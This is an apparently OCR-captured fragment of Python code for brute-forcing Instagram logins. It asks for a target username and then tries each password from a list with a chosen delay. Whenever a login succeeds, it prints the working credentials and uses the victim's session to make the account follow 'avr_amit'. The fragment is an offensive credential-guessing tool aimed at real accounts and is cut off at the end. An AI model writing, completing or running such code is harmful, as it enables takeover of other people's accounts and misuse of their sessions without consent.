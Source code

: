 
def follow(sess, username):

	username = userExists(username)

	if (username == False):

		return	

	else:

		userID = username['id']

		followReq = sess.post('https://www.instagram.com/web/friendships/%s/follow/' % userID)

		print (followReq.text)





username = str(input('Please enter a username: '))

username = userExists(username)

if (username == False):

	exit()

else:

	username = username['username']







delayLoop = int(input('Please add delay between the passwords (in seconds): ')) 





for i in range(len(passwords)):

	password = passwords[i]

	sess = Login(username,password)

	if (sess):

		print ('Login success %s' % [username,password])



		#because i am cool

		follow(sess,'avr_amit')



	try:

		time.sleep(delayLoop)

	except KeyboardInterrupt:

		an = str(input('Type y/n to exit: '))
